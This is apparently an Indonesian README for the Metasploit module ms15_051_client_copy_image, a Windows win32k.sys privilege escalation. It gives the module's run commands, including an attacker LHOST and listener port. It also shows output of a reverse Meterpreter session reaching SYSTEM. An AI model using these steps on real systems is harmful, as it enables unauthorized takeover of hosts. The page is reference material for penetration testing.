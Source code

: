 # ms15_051_client_copy_image

Modul ini mengeksploitasi penanganan objek yang tidak semestinya pada driver kernel mode `win32k.sys`.

Modul ini telah diuji pada build Windows yang rentan, yaitu:

- `Windows 7 x64` dan `x86`
- `Windows Server 2008 R2 SP1 x64`

## Penulis
- Unknown
- hfirefox
- OJ Reeves
- Spencer McIntyre

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms15_051_client_copy_image
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 5688 launched.
[*] Reflectively injecting the DLL into 5688...
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 16 opened (192.168.1.11:4444 -> 192.168.1.53:49172) at 2025-05-17 06:04:02 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms15_051_client_copy_image/)
